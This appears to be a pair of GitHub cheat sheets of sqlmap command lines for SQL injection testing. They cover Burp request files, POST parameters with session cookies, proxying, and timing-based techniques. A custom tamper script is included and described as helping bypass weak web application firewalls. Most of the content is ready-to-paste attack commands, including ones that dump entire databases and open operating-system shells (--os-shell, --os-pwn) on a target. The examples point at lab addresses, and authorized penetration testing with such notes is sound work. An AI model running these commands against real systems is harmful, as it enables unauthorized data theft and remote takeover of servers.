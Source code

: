 # SQLMap

[ sqlmap ]
https://tools.kali.org/vulnerability-analysis/sqlmap

[ + ] SQLMAP AND POST DATA:
--> Intercept HTTP POST request in Burp.
--> touch request.txt
--> nano request.txt
--> paste.
--> Remove each additional \r\n (Carriage Return & Newline Data - usually just an empty space after each header...)
--> sqlmap -r request.txt

[ + ] Optionally:
--> --dbms=mysql (Specify the Database Management System to save a LOT of time with SQLMAP...)
--> --threads=2 (Specify more threads if you wish - I find two to be fine.)
--> --time-sec=10 (In the event of time-based SQLi Queries - make the sleep time to 10 seconds...)
--> --level=2 (Specify the level for SQLMAP - it goes to a maximum of 5 levels.)
--> --risk=2 (Risk goes up to 3 at max.)
--> --technique=T (This will specify for any Time-Based versus a value of 'B' which would be "Boolean Based" heavy stack queries.)
--> --force-ssl (Some modern databases themselves require SSL Protocol.)
--> --dbs (Extract a Database Name)
--> -D <database name> (Found a Database Name? Tell SQLMap which one you're interested in.)

[ + ] All Together for request.txt:
sqlmap -r request.txt
sqlmap -r request.txt --threads=2
sqlmap -r request.txt --threads=2 --time-sec=10
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --force-ssl
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --force-ssl --dump
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --force-ssl --os-shell
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --force-ssl --os-pwn

[ + ] On your URL Environment Variable :
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl
--> or
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=B --force-ssl

[ + ] Need to specify the DMBS?
--dbms=<DBMS>
--dbms=mysql
--dbms=mssql
--> etc.

[ + ] Dump all data we get please to the terminal please.
--dump

[ + ] If the DBMS is configured to permit I/O Operations (Specifically Output). - Shell
--os-shell

[ + ] Specify a specific parameter to Test (i.e. I want to test parameter9 rather than parameters1-8 as I know that's where the injection point is already).
-->export URL="http://127.0.0.1:80/superDuperCMS.php?p1=DATA&p2=DATA&p3=DATA&p4=INJECTABLE-POINT
sqlmap -u $URL --threads=2 --risk=2 --level=3 --dbms=<DBMS> -p p4


# SQLMapExamples
A list of sample SQL Map Injection Commands.  SQLMap is a powerful tool for identifying SQL injection vulnerabilities.  However, everytime I use it, I struggle with the parameters.  The following is a list of SQLMap one-liners that I have used in the past and keep here so I can copy and paste and modify the parameters are required.

Reference:
https://github.com/sqlmapproject/sqlmap/wiki/Usage

## SQLMap and BurpSuite
These days, all the cool kids will use a Request file generated from a proxy like BurpSuite to save a bunch of parameter typing.
In burpsuite, when you are viewing a request in the proxy -> intercept tab, you can right click on the request and select "Copy to file" and save the request to a local file.
Next you can point SQLMap to that request file using the -r parameter:
```bash
sqlmap -r request.req --dump --batch
```

This can save you having to dial in all the parameters to setup our SQL injection.

## SQLMap Injection on POST parameter with a PHP Session ID
Here we have simple sql injection test agianst a single POST parameter
```bash
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation
Here is the same injection attack as above but using the astrix to inject at a predetermined postion for a MySQL database running on a Linux platform:
```bash
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```


## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation
Here is a SQL injection attack which has been configured to run through a Proxy (BurpSuite)

```bash
sqlmap -u "http://10.10.10.10/rofile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap test only 1 parameter "name" and risk 3 level 5 through a proxy connection
Here is a sql injection on a name parameter for a login form at a set position on the name field. Also there is a custom written tamper (that is included in this repository) that will replace <here> with 3 random characters, so that a unique user is created with each SQLMap injection test.
You can  install this tamper simply by coping the file to your /usr/share/sqlmap/tamper folder (on Kali at least)

```bash
sqlmap -u "http://10.10.10.10:80/index.php" --data="name=12345678901*&email=test<here>@test.com&password=test12345" --method="POST" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 -p "name" --dbms="MySQL" --os=Linux --level=5 --risk=3 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N" --tamper=chargen.py
```

**Chergen.py code is below**

## SQLMap test only blind timing based SQL injection techniques
Testing only the timing based attacks using the --technique=T parameter
```
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=5 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N" --technique=T
```

## Create a custom SQLMap tamper file
I ran into a scenario today where I wanted to test a SQL create new user page for a SQL injection.
Tampers can be easily edited and replaced here:
`cd /usr/share/sqlmap/tamper`
`sudo cp lowercase.py increment.py`


```
#!/usr/bin/env python

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re
import random
import string

from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    replaces <here> with 3 random generated chars - helpful when we need to generate unique entries for user names
    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0
    Notes:
        * Useful to bypass very weak and bespoke web application firewalls
          that has poorly written permissive regular expressions
    >>> tamper('INSERT')
    'insert'
    """

    retVal = payload
    if payload:
        all_ascii_letters = string.ascii_letters
        random_chars = ''.join(random.choice(all_ascii_letters) for i in range(3))
        retVal = retVal.replace("<here>",random_chars)
    return retVal
```
